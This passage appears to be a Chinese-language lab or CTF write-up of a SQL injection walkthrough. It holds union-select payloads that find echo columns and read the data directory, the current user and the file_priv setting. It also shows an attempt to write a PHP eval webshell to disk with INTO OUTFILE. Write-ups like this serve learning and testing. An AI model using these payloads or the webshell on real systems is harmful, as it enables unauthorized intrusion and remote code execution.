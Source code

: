 ```sql
1' union select 1,2,3#
# 都是回显位
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732606079086-f486f696-7302-4a77-8463-5f2f4f64a903.png)

在网上找到个函数，看看当前路径，来写木马文件

```sql
1' union select 1,2,group_concat(@@datadir)#

@@datadir  
# 查看数据库路径
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732606225897-70137f14-a0cb-4881-b70b-4e94abc7804f.png)

试着写一下木马文件

```sql
1' union select 1,2,'<?php eval($_POST['a']);?>' into outfile '/mysql/data/1.php'#

into outfile()
# 在路径下进行文件写入
```

之后发现不可以，文件没写成功

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732606839398-051e2c3b-6ce4-487d-aacf-2fe1102ffd84.png)

去网上找了文件读写的笔记

参考文章：[【SQL注入16】SQL漏洞利用之读写文件](https://blog.csdn.net/Fighting_hawk/article/details/123020457)

发现用户的权限也有一张表专门记录

即 mysql 库下的 user 表里的 file_priv 字段

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732607606888-88ef8e03-758e-4e80-ad65-168ecc13fbc0.png)

两个关键

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732607691319-325f376d-cfb8-4941-a059-55c7f567c1b9.png)

让我们查一下,得到现在是有权限的

```sql
1' union select 1,2,user()#

user()
# 当前用户名
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732608081029-3934e150-5d6e-4ee3-b655-00845a224346.png)

```sql
1' union select 1,2,file_priv from mysql.user where host='localhost' and user='root'#
```
